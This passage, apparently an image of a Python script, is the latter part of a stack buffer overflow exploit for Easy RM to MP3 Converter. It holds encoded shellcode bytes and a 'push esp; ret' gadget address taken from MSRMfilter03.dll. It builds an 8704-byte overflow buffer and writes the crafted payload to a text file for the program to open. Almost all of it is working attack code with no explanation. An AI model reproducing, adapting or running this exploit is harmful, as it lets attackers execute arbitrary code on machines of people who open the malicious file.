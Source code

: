```term_session
buf += b"\x31\x4b\x63\x4c\x4b\x67\x74\x4e\x6b\x63\x31\x6e\x30"
buf += b"\x4e\x69\x77\x34\x36\x44\x64\x64\x71\x4b\x63\x6b\x51"
buf += b"\x71\x66\x39\x31\x4a\x36\x31\x39\x6f\x59\x70\x43\x6f"
buf += b"\x43\x6f\x62\x7a\x6c\x4b\x55\x42\x38\x6b\x6e\x6d\x43"
buf += b"\x6d\x42\x4a\x53\x31\x4c\x4d\x6d\x55\x6c\x72\x67\x70"
buf += b"\x33\x30\x77\x70\x50\x50\x53\x58\x75\x61\x4c\x4b\x30"
buf += b"\x6f\x6b\x37\x49\x6f\x78\x55\x6f\x4b\x69\x70\x57\x6d"
buf += b"\x45\x7a\x37\x7a\x53\x58\x4e\x46\x5a\x35\x4d\x6d\x6f"
buf += b"\x6d\x59\x6f\x39\x45\x47\x4c\x36\x66\x51\x6c\x45\x5a"
buf += b"\x4d\x50\x39\x6b\x39\x70\x50\x75\x55\x55\x4f\x4b\x70"
buf += b"\x47\x46\x73\x64\x32\x62\x4f\x72\x4a\x65\x50\x71\x43"
buf += b"\x69\x6f\x4e\x35\x53\x53\x30\x61\x42\x4c\x75\x33\x76"
buf += b"\x4e\x75\x35\x61\x68\x61\x75\x37\x70\x41\x41"

pushesp = struct.pack("<I", 0x1001B058) # 0x1001b058 : "\x54\xC3" |  {PAGE_EXECUTE_READ} [MSRMfilter03.dll] ASLR: False, Rebase: False, 
SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Easy RM to MP3 Converter\MSRMfilter03.dll)

buffer = "A" * 8704 + pushesp + buf + "\xff" * 200 

f = open ("finding4.txt", "w")
f.write(buffer)
f.close()
```
